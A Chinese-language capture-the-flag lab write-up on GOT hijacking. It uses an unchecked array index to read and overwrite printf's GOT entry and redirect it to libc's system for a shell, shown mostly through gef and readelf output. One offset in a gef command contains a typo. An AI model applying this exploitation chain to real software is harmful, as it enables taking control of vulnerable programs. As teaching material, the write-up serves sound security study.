 ## Lab-Got
Flag: `flag{Libccccccccccccccccccccccccccc}`

### 解題流程與思路
這一題就和[0x06(GOT hijacking)](https://hackmd.io/@SBK6401/S1BBpSR5s)差不多，首先有幾個條件才能達到這個攻擊
1. 要hijack的function在完成hijack之後當然還要再呼叫一次，這樣才會真的執行攻擊
2. 保護不能是Full RELRO，這樣才會執行lazy binding的機制

這一題都有達成，首先題目開一個array，我們可以輸入array的index，題目會return該index的value到前端，而題目並沒有針對我的輸入進行filter或檢查，所以我可以到任意讀取，並且可以針對該index達到任意寫入(因為題目有開這樣的功能)，所以我們就可以先到處看一下輸入不同的index會吐出甚麼樣的東西
1. 首先要知道arr在哪邊
    ![image](https://hackmd.io/_uploads/HkdauHJEa.png)
    可以看到他應該在offset 0x4048的地方
    ```bash
    gef➤  vmmap
    [ Legend:  Code | Heap | Stack ]
    Start              End                Offset             Perm Path
    0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /mnt/d/NTU/Second Year/Computer Security/PWN/Lab1/got/share/lab
    ...
    0x555555558048 <arr>:   0x00000000000004d2      0x00007ffff7fa2780
    0x555555558058: 0x0000000000000000      0x00007ffff7fa1aa0
    0x555555558068 <completed.0>:   0x0000000000000000      0x0000000000000000
    0x555555558078: 0x0000000000000000      0x0000000000000000
    0x555555558088: 0x0000000000000000      0x0000000000000000
    gef➤  x/10gx 0x0000555555554000+0x4048-0x30
    0x555555558018 <__stack_chk_fail@got.plt>:      0x0000555555555030      0x00007ffff7de8770
    0x555555558028 <setvbuf@got.plt>:       0x00007ffff7e09670      0x0000555555555060
    0x555555558038: 0x0000000000000000      0x0000555555558040
    0x555555558048 <arr>:   0x00000000000004d2      0x00007ffff7fa2780
    0x555555558058: 0x0000000000000000      0x00007ffff7fa1aa0
    gef➤  got
    GOT protection: Partial RelRO | GOT functions: 4
    
    [0x555555558018] __stack_chk_fail@GLIBC_2.4  →  0x555555555030
    [0x555555558020] printf@GLIBC_2.2.5  →  0x7ffff7de8770
    [0x555555558028] setvbuf@GLIBC_2.2.5  →  0x7ffff7e09670
    [0x555555558030] __isoc99_scanf@GLIBC_2.7  →  0x555555555060
    ```
    可以看到Printf的got address是在`0x7ffff7de8770`，如果是以arr的index來說就是==-5==，所以我們要Hijack的目標就很清楚，printf後面會print出`/bin/sh\x00`，那我們就可以讀取printf的地址後return to libc，再用offset回到system
    ```bash
    $ ldd lab
        linux-vdso.so.1 (0x00007ffc09506000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f50dc33d000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f50dc577000)
    $ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep printf
    2922: 0000000000060770   204 FUNC    GLOBAL DEFAULT   15 printf@@GLIBC_2.2.5
    $ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
    1481: 0000000000050d60    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
    ```
    (這是筆電的版本，所以會和exploit的script不太一樣)
    ```bash
    gef➤  p 0x7ffff7de8770-0x60770+0x50d0
    $1 = 0x7ffff7dd8d60
    gef➤  x/10gx 0x7ffff7dd8d60
    0x7ffff7dd8d60 <__libc_system>: 0x74ff8548fa1e0ff3      0x9066fffffb82e907
    0x7ffff7dd8d70 <__libc_system+16>:      0x253d8d4808ec8348      0xfffffb70e8001879
    0x7ffff7dd8d80 <__libc_system+32>:      0xc48348c0940fc085      0x001f0fc3c0b60f08
    0x7ffff7dd8d90 <realpath_stk>:  0x5441554156415741      0x000898ec81485355
    0x7ffff7dd8da0 <realpath_stk+16>:       0x4864082474894800      0x480000002825048b
    ```
